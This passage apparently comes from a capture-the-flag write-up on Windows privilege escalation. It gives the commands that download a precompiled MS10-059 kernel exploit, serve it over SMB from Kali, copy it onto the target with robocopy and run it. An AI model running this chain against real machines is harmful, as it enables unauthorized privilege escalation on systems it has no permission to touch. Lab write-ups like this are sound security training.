 Of the list, only the following URL look promising:

- http://www.exploit-db.com/exploits/15609/

But the list of supported kernels does not list the target's:

```bash
Windows Vista/2008 6.1.6000 x32,
Windows Vista/2008 6.1.6001 x32,
Windows 7 6.2.7600 x32,
Windows 7/2008 R2 6.2.7600 x64. # not 6.1.7600 N/A Build 7600
```

Next use the older tool `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to look for older exploits:

```bash
# download and install
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2.7 get-pip.py
python2.7 -m pip install xlrd
# run
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-09-29-mssb.xls --systeminfo ./systeminfo.txt
```

From that tool, there is more output:

![wesng2](./bounty/wesng2.png)

MS10-059 is a solid choice since it is already found pre-compiled at https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059. Just download, upload, and execute:

```bash
# on kali, download exploit:
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
# on kali, host exploit:
sudo impacket-smbserver BUBBA .
# on target, download exploit:
robocopy \\10.10.14.17\BUBBA\ %TEMP% MS10-059.exe /copy:DT /w:1 /r:1 /v
# on target, run exploit:
%TEMP%\MS10-059.exe
```
